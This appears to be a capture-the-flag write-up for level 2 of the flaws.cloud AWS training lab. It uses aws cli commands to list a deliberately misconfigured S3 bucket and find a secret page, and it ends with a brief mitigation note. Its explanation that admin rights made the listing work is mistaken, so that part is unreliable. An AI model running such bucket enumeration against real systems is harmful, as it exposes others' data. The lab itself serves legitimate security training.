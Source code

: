# Flaws Cloud
### URl: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/

# Level 2
### The next level is fairly similar, with a slight twist. You're going to need your own AWS account for this. You just need the free tier.

# Writeup
I tried to check of directory listing on this website using the following command, but, it seems, they have restricted access.
```
$ aws s3api list-objects-v2 --bucket level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --region us-west-2 --no-sign-request
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

As it is giving is access denied, maybe we can create a user in AWS and then request to this particular endpoint and check whether it is working or not!

Let's start by going to (https://console.aws.amazon.com/iam/home#/users) and create user and get command line api id and secret.

We can configure aws id and secret using `aws configure`.

Now accessing same URL, AGAIN, it will give same access denied error. So what we can do is, give our newly created user full "AdministratorAccess". (from Add Permissions > select "AdministratorAccess").

Now, after giving administrator access, if we give another try, we got json in response

```
$ aws s3api list-objects-v2 --bucket level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --region us-west-2

{
  "Contents": [
    {
      "Key": "everyone.png",
      "LastModified": "2017-02-27T02:02:15.000Z",
      "ETag": "\"d51ce30087f1fba84d6fb4d0cfc5f872\"",
      "Size": 80751,
      "StorageClass": "STANDARD"
    },
    {
      "Key": "hint1.html",
      "LastModified": "2017-03-03T03:47:17.000Z",
      "ETag": "\"ba4f41589527d0fa7fd4fb87a1f91348\"",
      "Size": 1433,
      "StorageClass": "STANDARD"
    },
    {
      "Key": "hint2.html",
      "LastModified": "2017-02-27T02:04:39.000Z",
      "ETag": "\"1641e5bb8e63e63a26bc16e07c9c563b\"",
      "Size": 1035,
      "StorageClass": "STANDARD"
    },
    {
      "Key": "index.html",
      "LastModified": "2017-02-27T02:02:14.000Z",
      "ETag": "\"bbc2900889794698e208a26ce3087b6f\"",
      "Size": 2786,
      "StorageClass": "STANDARD"
    },
    {
      "Key": "robots.txt",
      "LastModified": "2017-02-27T02:02:14.000Z",
      "ETag": "\"bbbcde0b15cabd06aace1df82d335978\"",
      "Size": 26,
      "StorageClass": "STANDARD"
    },
    {
      "Key": "secret-e4443fc.html",
      "LastModified": "2017-02-27T02:02:15.000Z",
      "ETag": "\"8207323f2b9dcfc5983421452f91ad5f\"",
      "Size": 1051,
      "StorageClass": "STANDARD"
    }
  ]
}
```

Boom, we got secret URL.

Next, Level 3: http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/


# How to stop this vulnerability
- Currently, it is just checking if the user has admin roles, if so, it will give bucket content in response. Instead of giving permission to all users, give specific permission to access bucket to specific users.
